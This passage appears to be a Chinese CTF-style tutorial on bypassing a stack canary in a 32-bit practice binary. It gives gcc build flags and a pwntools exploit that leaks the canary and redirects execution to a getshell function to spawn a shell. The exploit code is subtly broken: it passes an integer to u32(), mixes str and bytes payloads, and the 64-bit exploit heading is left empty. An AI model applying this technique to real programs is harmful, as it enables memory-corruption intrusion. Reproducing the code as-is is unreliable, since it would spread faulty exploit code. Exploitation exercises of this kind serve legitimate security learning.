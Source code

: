   

编译为 32bit 程序，开启 NX，ASLR，Canary 保护,需要关闭PIE

  

gcc -m32 -no-pie ex2.c -o ex2-x86

  

linux默认开启 NX，ASLR，Canary 保护  
首先通过覆盖 Canary 最后一个 \x00 字节来打印出 4 位的 Canary 之后，计算好偏移，将 Canary 填入到相应的溢出位置，实现 Ret 到 getshell 函数中

  

#### EXP

  

#!/usr/bin/env python

from pwn import *

context.binary = 'ex2-x86'
# context.log_level = 'debug'
io = process('./ex2-x86')

get_shell = ELF("./ex2-x86").sym["getshell"] # 这里是得到getshell函数的起始地址

io.recvuntil("Hello Hacker!\n")

# leak Canary
payload = "A"*100
io.sendline(payload) # 这里使用 sendline() 会在payload后面追加一个换行符 '\n' 对应的十六进制就是0xa

io.recvuntil("A"*100)
Canary = u32(int.from_bytes(io.recv(4),"little"))-0xa # 这里减去0xa是为了减去上面的换行符，得到真正的 Canary
log.info("Canary:"+hex(Canary))

# Bypass Canary
payload = b"\x90"*100+p32(Canary)+b"\x90"*12+p32(get_shell) # 使用getshell的函数地址覆盖原来的返回地址
io.send(payload)

io.recv()

io.interactive()

  

编译为64位程序：

  

gcc -no-pie ex2.c -o ex2-x64

  

#### EXP

  
